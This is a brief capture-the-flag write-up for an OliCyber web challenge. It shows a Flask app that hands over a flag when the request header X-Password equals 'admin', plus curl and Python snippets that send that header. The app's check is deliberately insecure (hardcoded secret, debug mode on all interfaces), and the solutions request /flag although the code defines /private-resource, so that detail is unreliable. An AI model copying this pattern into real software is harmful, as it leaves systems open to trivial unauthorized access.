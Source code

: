 # URL
https://training.olicyber.it/challenges#challenge-342
# Concept
* HTTP request headers
* the challenge Python script that deploys the web app are as follows:
```
from os import environ
from http import HTTPStatus
from flask import Flask, request, Response


app = Flask(__name__)


@app.route("/private-resource")
def private_resource():
    if request.headers.get("X-Password") == "admin":
        return Response(environ["FLAG"], mimetype="text/plain", status=HTTPStatus.OK)
    else:
        return Response("Unauthorized", mimetype="text/plain", status=HTTPStatus.UNAUTHORIZED)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True)

```
# Method of solve
* according to the code, if there is a request header: `X-Password` with a value of `admin`, then the flag will be returned by the app
## Curl
* we can use the following curl command to supply the header and get the flag
```
curl -v -H "X-Password: admin" http://web-03.challs.olicyber.it/flag
```
## Python
```
import requests

URL = 'http://web-03.challs.olicyber.it/flag'

custom_headers = {'X-Password': 'admin'}

get_req = requests.get(URL, headers=custom_headers)
req_text = get_req.text
print(req_text)
```
